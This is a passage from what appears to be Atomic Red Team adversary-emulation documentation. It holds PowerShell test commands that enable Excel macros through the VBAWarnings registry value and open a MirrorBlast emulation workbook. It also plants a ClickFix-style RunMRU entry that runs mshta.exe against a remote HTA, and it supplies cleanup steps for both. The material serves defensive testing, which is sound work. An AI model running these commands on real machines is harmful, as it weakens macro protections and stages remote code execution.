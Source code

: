 **Supported Platforms:** Windows


**auto_generated_guid:** 24fd9719-7419-42dd-bce6-ab3463110b3c






#### Attack Commands: Run with `powershell`! 


```powershell
Cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs"
New-ItemProperty -Path Registry::HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Excel\Security -Name "VBAWarnings" -Value "1" -PropertyType DWORD -Force | Out-Null
& '.\Excel 2016.lnk' "PathToAtomicsFolder\T1204.002\bin\mirrorblast_emulation.xlsm"
```

#### Cleanup Commands:
```powershell
reg delete "HKCU\SOFTWARE\Microsoft\Office\16.0\Excel\Security" /v "VBAWarnings" /f
```





<br/>
<br/>

## Atomic Test #12 - ClickFix Campaign - Abuse RunMRU to Launch mshta via PowerShell
Simulates a ClickFix-style campaign by adding a malicious entry to the RunMRU registry key that launches `mshta.exe` with a remote payload.
This technique relies on user interaction (Win+R + Enter) to trigger execution.
Used in social engineering campaigns that aim to bypass traditional startup methods.
Reference: https://www.netskope.com/blog/lumma-stealer-fake-captchas-new-techniques-to-evade-detection

**Supported Platforms:** Windows


**auto_generated_guid:** 3f3120f0-7e50-4be2-88ae-54c61230cb9f






#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Name "atomictest" -Value '"C:\Windows\System32\mshta.exe" http://localhost/hello6.hta'
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Name "atomictest" -ErrorAction SilentlyContinue
```





<br/>
